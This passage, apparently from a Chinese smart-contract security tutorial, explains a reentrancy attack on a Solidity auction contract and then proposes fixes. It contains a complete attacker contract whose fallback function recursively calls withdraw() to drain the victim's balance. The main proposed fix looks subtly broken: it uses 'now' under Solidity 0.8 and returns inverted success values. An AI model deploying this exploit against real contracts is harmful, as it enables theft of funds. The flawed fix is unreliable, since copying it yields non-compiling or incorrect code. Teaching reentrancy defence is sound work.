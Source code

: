 ```solidity
```
- 恶意合约 B ：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 引入拍卖合约
import "./SimpleAuctionV2.sol";

contract B {
    uint stack = 0;

    // 调用拍卖合约函数 bid() 参与竞拍
    function hack_bid(address addr) payable public {
        SimpleAuctionV2 sa = SimpleAuctionV2(addr);
        sa.bid{value: msg.value}(); 
    }

    // 调用拍卖合约的 withdraw() 函数取回钱
    function hack_withdraw(address addr) public {
        SimpleAuctionV2(addr).withdraw();
    }

    // 合约C调用fallback()函数，递归调用直到【1】合约C中钱不够了，【2】gas费不够了，【3】调用栈溢出
    fallback() external payable {
        stack += 2;
        // 判断合约C余额足以支持转账、gas费大于6000、栈深度小于500
        if (msg.sender.balance >= msg.value && gasleft() > 6000 && stack < 500) { 
            SimpleAuctionV2(msg.sender).withdraw(); 
        }
    }
}

```
## **-->解决方案：**  
#### - 方案1：优化 withdraw 中 转账部分  
```solidity
// 使用 withdraw 模式
// 由投标者自己取回出价，返回是否成功
function withdraw() public returns(bool){
    //判断拍卖已截止
    require( now > auctionEnd);
    // 取回出价最高者不能是竞拍成功者
    require(msg.sender != highestBidder);
    // 当前地址有钱可用
    require(bids[msg.sender] > 0);

    //-----优化 向调用者转账------
    uint amount = bids[msg.sender];  //获取余额
    bids[msg.sender] = 0;            //提前清零
    if(!msg.sender.send(amount)){    //使用 send() 转账，gas费固定 2300
        bids[msg.sender] = amount;   //不符合条件时恢复余额 
        return true;
    }
    return false;
}
```
#### - 方案2：采用”拉取模式“ （Withdraw）替代”推动模式“（Push） 
- C 合约仅记录用户 A 的可退款金额，不主动向 B 转账；
- 竞拍允许用户账户参与（可选）  
- 退款时只能 用户A **主动**从 合约C 提取资金，绕过合约B   
